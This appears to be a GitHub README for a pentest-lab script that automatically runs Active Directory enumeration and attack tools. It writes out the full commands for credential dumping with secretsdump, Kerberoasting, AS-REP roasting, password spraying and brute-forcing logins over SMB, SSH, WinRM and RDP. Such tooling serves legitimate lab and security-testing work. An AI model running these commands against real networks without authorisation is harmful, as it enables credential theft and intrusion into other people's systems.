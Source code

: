 # VeryStupidEnumeration
Stupid? Well you came to the right place. 


Sometimes I don't remember which Impacket script to use as I do Pentest Labs, and sometimes I just want to run all of them at once like a script kiddie, but dumber and lazier. I'm creating the script as a way to dump a ton of information at myself at once, hoping that something, anything, jogs my memory into accidentally doing something smart on autopilot. 

Pros: It easy.

Cons: Someone might see you and think you're a fraud, and they'll be right. 

## Usage
This script *prompts you* for Domain, IP, dc-ip, user or userlist, and password or passwordlist, and then runs commands based on what you gave it with these four scenarios:
1. Scenario 1 - valid user and password
2. Scenario 2 - valid user and password list
3. Scenario 3 - user list and valid password
4. Scenario 4 - user list and password list (good luck dummy)

You probably don't want to run this with long lists, use something else for that. It will run a bunch of commands, and then send the output to a file. Here are the commands that it runs based on each of the scenarios:

Scenario 1 (user/password): 
- `bloodhound-python -u $user -p '$password' -ns $ip -d $domain -c all`
- `enum4linux -u "$user" -p "$password" -a $IP`
- `impacket-secretsdump $domain/$user:'$password'@$IP`
- `impacket-GetUserSPNs $domain/$user:'$password' -dc-ip $DC-IP`
- `impacket-GetNPUsers $domain/$user:'$password' -dc-ip $DC-IP`
- `impacket-rpcdump $domain/$user:$password@$IP`
- `ldapdomaindump -u $domain\\$user -p '$password' $domain -o ldapdomaindump`
- `nxc ldap $IP -u $user -p $password --kdcHost $IP -M laps`
- `nxc smb $IP -u $user -p '$password' -d $domain` 
- `nxc ssh $IP -u $user -p '$password' -d $domain` 
- `nxc winrm $IP -u $user -p '$password' -d $domain` 
- `nxc rdp $IP -u $user -p '$password' -d $domain --rdp-timeout 30` 
- `smbclient -L //$IP/ -U $user%$password`

Scenario 2 (user/passwordlist):
- `enum4linux -a $IP`
- `kerbrute bruteuser -d $domain $passwordlist $user`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc ssh $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc winrm $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc rdp $IP -u $user -p $passwordlist -d $domain --continue-on-success --rdp-timeout 30`
-`smbclient -L \\\\$IP\\ -u '$user' -p ''`

Scenario 3 (userlist/password):
- `enum4linux -a $IP`
- `kerbrute passwordspray -d $domain $userlist $password`
- `kerbrute userenum -d $domain $userlist`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc ssh $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc winrm $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc rdp $IP -u $userlist -p '$password' -d $domain --continue-on-success --rdp-timeout`
- `smbclient -L \\\\$IP\\ -N`

Scenario 4 (userlist/passwordlist):
- `enum4linux -a $IP`
- `kerbrute userenum -d $domain $userlist`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u '' -p '' --shares --users`
- `nxc ssh $IP -u $userlist -p $passwordlist`
- `nxc winrm $IP -u $userlist -p $passwordlist`
- `nxc rdp $IP -u $userlist -p $passwordlist --rdp-timeout 30`
- `smbclient -L \\\\$IP\\ -N`
  
It could not be easier, and frankly it shouldn't be this easy. 
